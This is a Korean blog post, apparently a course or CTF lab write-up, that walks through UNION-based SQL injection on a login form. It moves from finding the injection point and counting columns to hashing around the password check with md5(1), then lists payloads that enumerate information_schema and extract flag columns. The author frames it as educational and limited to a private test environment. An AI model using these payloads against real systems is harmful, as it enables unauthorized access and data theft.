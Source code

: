 ```yaml
---
layout: single
title:  "7 주차 SQL injection 데이터 추출 문제 풀이(4)"
categories: SQL-injection
typora-root-url: ..\
author_profile: false


---
```


<br>

# <span style="background:#000000; color:#ffffff">1. 7 주차 SQL injection 데이터 추출 문제 풀이(4)</span>

<br><span style='font-weight:bold; font-size:15px'> ※ 주의 사항 :</span>   

<span style='font-weight:bold; font-size:15px'>1. 교육 목적으로만 이용 해주세요.</span><br>
<span style='font-weight:bold; font-size:15px'>2. 무단 침입, 데이터 유출, 개인 정보 침해 등 불법적인 활동은 심각한 법적 결과를 초래할 수 있습니다.</span><br>
<span style='font-weight:bold; font-size:15px'>3.  개인적인 테스트 환경을 구축해서 실습하시길 바랍니다. </span>



## <span style="background:#696969; color:#ffffff">1.1   SQL injection</span>

<br>

3번 풀이와 같다

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605063335084.png" alt="image-20240605063335084" style="zoom:67%;" />



<img src="/images/2024-06-05-SQLinjection21.md/image-20240605052309872.png" alt="image-20240605052309872" style="zoom:67%;" />

normatitc 아이디로 로그인이 되는 지 확인하였다.  
그리고 user name 에 대한 정보가 추출된다.(DB정보)

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.1 sql injection 포인트 찾기</span>

------

<br>

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605052418035.png" alt="image-20240605052418035" style="zoom:67%;" />

▶ 해당 로그인 폼에 sql 구문이 적용되는 지 확인하였다.

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605052546843.png" alt="image-20240605052546843" style="zoom:67%;" />

▶ 식별 /인증 이 동시인가, 분리인가 확인하기 위해 작성했다.   
or 이 로그인이 안되는 것으로 보아 분리일 확률이 높다.

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605052653941.png" alt="image-20240605052653941" style="zoom:67%;" />

▶ 확실히 하기 위해 비밀 번호가 sql 구문이 적용되는 지 살펴보았다. 로그인이 되지 않으므로   
분리가 확실해 졌다.  왜냐하면 동시라면 둘 다 sql 구문이 적용되어야 하기 때문이다.

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.2 column 개수 찾기</span>

------

<br>

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605052732705.png" alt="image-20240605052732705" style="zoom:67%;" />

order by 1부터 순차적으로 작성해 본 결과, order by 3 이후로는 로그인이 되지 않는다.   
따라서 칼럼 개수는 2 개라는 사실을 알 수 있다.

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.3 출력되는 column 위치 찾기</span>

------

<br>

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605052926457.png" alt="image-20240605052926457" style="zoom:67%;" />

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605052944301.png" alt="image-20240605052944301" style="zoom:67%;" />

로그인을 시도 해본 결과, 로그인이 되지 않는다. 

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605053007133.png" alt="image-20240605053007133" style="zoom:67%;" />

그렇다는 것은 비밀 번호 값이 다른 것으로 저장 되어 있어서 일치하지 않는다는 사실을 알 수 있다.  
따라서 비밀 번호는 해쉬 처리 해야 한다. 둘 중 어떤 것이 비밀 번호 칼럼 인지 아직 모르므로, 하나 씩 적용해 본다.   
위의 이미지처럼 앞의 칼럼이 비밀 번호이고, 뒤의 칼럼이 아이디 칼럼이다.

그러므로 데이터를 추출 하기 위해서는 아이디 칼럼에 데이터를 추출해야 로그인해서 데이터를 확인할 수 있다.

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.4 DB이름 확인하기</span>

------



<img src="/images/2024-06-05-SQLinjection21.md/image-20240605053152557.png" alt="image-20240605053152557" style="zoom: 67%;" />

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605063513776.png" alt="image-20240605063513776" style="zoom:67%;" />

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.5 table이름 확인하기</span>

------

<br>



<img src="/images/2024-06-05-SQLinjection21.md/image-20240605054134342.png" alt="image-20240605054134342" style="zoom:67%;" />

' union select md5(1),(select table_name from information_schema.tables where table_schema = 'sqli_2_1' limit 0,1) #

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.6 column 이름 확인하기</span>

------

<br>

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605054308291.png" alt="image-20240605054308291" style="zoom:67%;" />

' union select md5(1),(select column_name from information_schema.columns where table_name = 'flag_table' limit 0,1) #

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605063656466.png" alt="image-20240605063656466" style="zoom:67%;" />

' union select md5(1),(select column_name from information_schema.columns where table_name = 'flag_table' limit 1,1) #

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605063750832.png" alt="image-20240605063750832" style="zoom:67%;" />

' union select md5(1),(select column_name from information_schema.columns where table_name = 'flag_table' limit 2,1) #

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605063812244.png" alt="image-20240605063812244" style="zoom:67%;" />

' union select md5(1),(select column_name from information_schema.columns where table_name = 'flag_table' limit 3,1) #

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605063833964.png" alt="image-20240605063833964" style="zoom:67%;" />

' union select md5(1),(select column_name from information_schema.columns where table_name = 'flag_table' limit 4,1) #

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605063855288.png" alt="image-20240605063855288" style="zoom:67%;" />

' union select md5(1),(select column_name from information_schema.columns where table_name = 'flag_table' limit 5,1) #

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605063916683.png" alt="image-20240605063916683" style="zoom:67%;" />

' union select md5(1),(select column_name from information_schema.columns where table_name = 'flag_table' limit 6,1) #

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605063944476.png" alt="image-20240605063944476" style="zoom:67%;" />

' union select md5(1),(select column_name from information_schema.columns where table_name = 'flag_table' limit 7,1) #





<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.7 data 추출하기</span>

------



<img src="/images/2024-06-05-SQLinjection21.md/image-20240605064128398.png" alt="image-20240605064128398" style="zoom:67%;" />

' union select md5(1),(select flag1 from flag_table limit 0,1) #

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605064151108.png" alt="image-20240605064151108" style="zoom:67%;" />

' union select md5(1),(select flag2 from flag_table limit 0,1) #

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605064215036.png" alt="image-20240605064215036" style="zoom:67%;" />

' union select md5(1),(select flag3 from flag_table limit 0,1) #

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605064233126.png" alt="image-20240605064233126" style="zoom:67%;" />

' union select md5(1),(select flag4 from flag_table limit 0,1) #

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605064251969.png" alt="image-20240605064251969" style="zoom:67%;" />

' union select md5(1),(select flag5 from flag_table limit 0,1) #

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605064307578.png" alt="image-20240605064307578" style="zoom:67%;" />

' union select md5(1),(select flag6 from flag_table limit 0,1) #

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605064333988.png" alt="image-20240605064333988" style="zoom:67%;" />

' union select md5(1),(select flag7 from flag_table limit 0,1) #

<img src="/images/2024-06-05-SQLinjection21.md/image-20240605064351747.png" alt="image-20240605064351747" style="zoom:67%;" />

' union select md5(1),(select flag8 from flag_table limit 0,1) #

